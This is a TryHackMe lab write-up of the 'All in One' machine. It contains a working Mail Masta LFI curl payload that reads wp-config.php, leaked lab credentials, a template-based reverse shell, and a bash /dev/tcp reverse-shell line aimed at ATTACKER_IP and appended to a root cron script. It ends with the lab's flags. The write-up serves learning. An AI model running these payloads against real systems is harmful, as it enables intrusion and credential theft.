








# All in One — TryHackMe Writeup

**Target:** All in One  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Web Exploitation, WordPress, Local File Inclusion, Cron Job Privilege Escalation

---

## Recon

As usual, I started by scanning for open ports and enumerating the available services using RustScan.

```bash
rustscan -a TARGET_IP
```



The scan revealed several interesting services, including FTP and HTTP.

---

## FTP Enumeration

I first attempted to access the FTP service using anonymous login.

Anonymous login was allowed, but after checking the contents, there were no useful files available.

Since FTP did not provide a clear attack path, I moved on to the web service running on port 80.

---

## Web Enumeration

The homepage was still the default Apache2 Ubuntu page.

Since the page was only a static default page, I performed directory fuzzing using FFUF.

```bash
ffuf -w ~/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt -u http://TARGET_IP/FUZZ -fs 278
```



The fuzzing results revealed a WordPress directory.

Since the target was running WordPress, I continued the enumeration using WPScan.

```bash
wpscan --url http://TARGET_IP/wordpress -e u,ap,t
```



The WPScan results showed that the target had the outdated **Mail Masta 1.0** plugin installed.

The plugin is known to be affected by several vulnerabilities, including:

- **CVE-2016-10956** — Local File Inclusion (LFI)
- **CVE-2017-6095 / CVE-2017-6098** — SQL Injection (SQLi)

I decided to test the LFI vulnerability first. If that failed, the next option would be to investigate the SQL injection vulnerabilities.

---

## Initial Foothold — Mail Masta LFI

I tested the Proof of Concept for **CVE-2016-10956**.

The target was vulnerable to Local File Inclusion.

I then used the vulnerability to read the WordPress `wp-config.php` file.

The payload used was:

```bash
curl "http://TARGET_IP/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php" | base64 -d
```

The command successfully revealed the following credentials:

```php
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );
```

I successfully obtained credentials for the `elyana` user.

After trying the credentials, I was able to log in to WordPress.



---

## Getting a Shell

After gaining access to WordPress, I attempted to obtain code execution through the template editor.

I replaced the `404.php` template with a reverse shell.



After editing the template, I triggered the page.

The reverse shell was successfully executed, giving me a shell as `www-data`.



---

## www-data Enumeration

During enumeration, I found a hint inside Elyana's home directory.

```text
www-data@TARGET_IP:/home/elyana$ cat hint.txt

Elyana's user password is hidden in the system. Find it ;)
```

The hint suggested that Elyana's password was hidden somewhere on the system.

I then ran LinPEAS for further enumeration.



The enumeration revealed the following file:

```text
/etc/mysql/conf.d/private.txt
```

The file contained credentials for the `elyana` user.

LinPEAS also identified another interesting file:

```text
/var/backups/script.sh
```

I checked the contents of the script:

```bash
cat /var/backups/script.sh
```

The script contained:

```bash
#!/bin/bash

#Just a test script, might use it later to for a cron task
```

The script itself did not appear to perform anything useful.

However, after checking the cron configuration, I found:

```text
*  *    * * *   root    /var/backups/script.sh
```

This meant that `script.sh` was executed every minute by `root`.

I then checked the permissions of the file:

```bash
ls -l /var/backups/script.sh
```

The result was:

```text
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```

The script had extremely permissive permissions.

Since the file was writable by every user, including `www-data`, and was executed every minute by `root`, this provided a direct path to privilege escalation.

At this point, there was no need to pivot to the `elyana` user.

---

## www-data → Root — Writable Cron Job

Since `/var/backups/script.sh` was automatically executed as root and could be modified by `www-data`, I simply appended a reverse shell payload to the script.

The payload used was:

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/9005 0>&1' >> /var/backups/script.sh
```

After appending the payload, I started a listener and waited for the cron job to execute the script.

Since the cron job ran every minute as `root`, the reverse shell was eventually executed with root privileges.



---

## Flags

### User

```text
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

### Root

```text
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9t
```

